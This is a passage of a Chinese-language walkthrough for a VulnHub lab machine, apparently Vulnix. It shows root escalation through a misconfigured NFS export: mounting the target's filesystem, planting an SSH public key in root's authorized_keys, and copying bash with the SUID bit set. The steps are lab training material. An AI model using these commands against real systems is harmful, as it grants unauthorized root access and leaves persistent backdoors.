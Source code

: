 ![](https://www.vulnhub.cn/walkthrough/48/10.webp)

```
$ sudo mount -t nfs 192.168.88.146://tmp/t
```

挂载靶机根目录

![](https://www.vulnhub.cn/walkthrough/48/11.webp)

### 思路一

**authorized_keys**

kali切换root用户

```
$ cd /tmp/v/root
$ mkdir .ssh 
$ cat  /tmp/id_rsa.pub >/tmp/v/root/.ssh/authorized_keys
```

使用密钥登录root用户，登录成功

![](https://www.vulnhub.cn/walkthrough/48/12.webp)

### 思路二

**bash**

```bash
$ cp /tmp/v/bin/bash /tmp/v/home/vulnix 
$ chmod 4755 /tmp/v/home/vulnix/bash 
```

![](https://www.vulnhub.cn/walkthrough/48/13.webp)

![](https://www.vulnhub.cn/walkthrough/48/14.webp)
